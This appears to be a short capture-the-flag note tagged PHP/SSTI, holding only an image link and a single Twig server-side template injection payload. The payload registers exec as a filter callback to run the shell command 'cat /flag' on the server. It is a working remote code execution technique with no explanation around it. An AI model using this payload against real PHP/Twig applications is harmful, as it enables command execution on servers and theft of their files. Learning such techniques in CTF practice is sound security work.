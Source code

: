 tags:: [[CTF/PHP/SSTI]]

- ```
  {{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}
  ```